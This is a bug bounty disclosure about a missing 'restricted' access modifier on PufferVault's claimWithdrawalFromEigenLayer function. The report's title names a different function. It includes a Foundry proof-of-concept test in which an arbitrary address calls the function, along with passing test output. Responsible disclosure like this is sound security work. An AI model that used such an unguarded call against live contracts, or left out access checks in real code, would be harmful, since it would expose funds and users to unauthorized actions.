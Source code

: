 # `PufferVault::claimWithdrawalFromLido`, according to natspec, should be restrcited but it is lacking restricted modifier
Submitted about 2 months ago by @ihtishamsudo (Whitehat) for Boost | Puffer Finance

Report ID: #28813
Report type: Smart Contract
Has PoC? Yes
Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

# Impacts
- Contract fails to deliver promised returns, but doesn't lose value

# Details
Description

# Brief/Intro
`claimWithdrawalFromEigenLayer` should be restricted access, according to natspec but unlike other functions it has not implemented restricted function

# Vulnerability Details
`PufferVault::claimWithdrawalFromEigenLayer` function is used to claim `stETH` withdrawals from `Eigen Layer` and it netspac indicates that it should be `restricted access` as shown below

```
    /**
           * @notice Claims stETH withdrawals from EigenLayer
@>         * Restricted access
           * @param queuedWithdrawal The queued withdrawal details
           * @param tokens The tokens to be withdrawn
           * @param middlewareTimesIndex The index of middleware times
     */
```

But it does not implement `restricted` modifier, whereas every other function having restricted access in natspec implemented the restricted function clearly but it clearly doesn't implement.

# Impact Details
As far as the `netspac` indicates that it should be restricted access so only restricted address can call it but having no restricted modifer means anyone can call this function.

# References
https://github.com/PufferFinance/pufETH/blob/d340d40a2ebb72993cd7dd6049a78a01bcef32ae/src/PufferVault.sol#L217

https://github.com/PufferFinance/pufETH/blob/d340d40a2ebb72993cd7dd6049a78a01bcef32ae/src/PufferVault.sol#L226

# Proof of concept

Here is the test in `PufferTest.integration.t.sol` that is testing withdrawal from Eigen layer and this test is using `OPERATION_MULTISIG` address to call every function in this test and `OPERATION_MULTISIG` is one of the puffer team address.

But what if we mold the test to let any random address to call claim withdrawal. For this we have to let `OPERATION_MULTISIG` stop prank and prank it with a random address right before claim withdrawal.

```
function test_withdraw_from_eigenLayer()
        public
        giveToken(BLAST_DEPOSIT, address(stETH), address(pufferVault), 1000 ether) // Blast got a lot of stETH
    {
        // Simulate stETH cap increase call on EL
        _increaseELstETHCap();

@>        vm.startPrank(OPERATIONS_MULTISIG); //normal called by multisig (restricted address) puffer team address
        pufferVault.depositToEigenLayer(stETH.balanceOf(address(pufferVault)));

        uint256 ownedShares = _EIGEN_STRATEGY_MANAGER.stakerStrategyShares(address(pufferVault), _EIGEN_STETH_STRATEGY);

        uint256 assetsBefore = pufferVault.totalAssets();

        // Initiate the withdrawal
        pufferVault.initiateStETHWithdrawalFromEigenLayer(ownedShares);

        // 1 wei diff because of rounding
        assertApproxEqAbs(assetsBefore, pufferVault.totalAssets(), 1, "should remain the same when locked");

        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(stETH));

        IStrategy[] memory strategies = new IStrategy[](1);
        strategies[0] = IStrategy(_EIGEN_STETH_STRATEGY);

        uint256[] memory shares = new uint256[](1);
        shares[0] = ownedShares;

        IEigenLayer.WithdrawerAndNonce memory withdrawerAndNonce =
            IEigenLayer.WithdrawerAndNonce({ withdrawer: address(pufferVault), nonce: 0 });

        IEigenLayer.QueuedWithdrawal memory queuedWithdrawal = IEigenLayer.QueuedWithdrawal({
            strategies: strategies,
            shares: shares,
            depositor: address(pufferVault),
            withdrawerAndNonce: withdrawerAndNonce,
            withdrawalStartBlock: uint32(block.number),
            delegatedAddress: address(0)
        });
@>  vm.stopPrank()     //stop `OPEATION_MULTISIG` call       
        // Roll block number + 100k blocks into the future
        vm.roll(block.number + 100000);
@>  vm.prank(address(5)) // Pranked with a random address and test it
        // Claim Withdrawal
        pufferVault.claimWithdrawalFromEigenLayer(queuedWithdrawal, tokens, 0);

        // 1 wei diff because of rounding
        assertApproxEqAbs(assetsBefore, pufferVault.totalAssets(), 1, "should remain the same after withdrawal");
    }
```

And the test passes
```
Running 2 tests for test/Integration/PufferTest.integration.t.sol:PufferTest
[PASS] test_withdraw_from_eigenLayer() (gas: 660064)
[PASS] test_withdraw_from_eigenLayer_dos() (gas: 888388)
Test result: ok. 2 passed; 0 failed; 0 skipped; finished in 2.34s

Ran 1 test suites: 2 tests passed, 0 failed, 0 skipped (2 total tests)
```

If the proper restricted modifier was implemented correctly than this test should've been failed but lack of it let any random address to call this function.
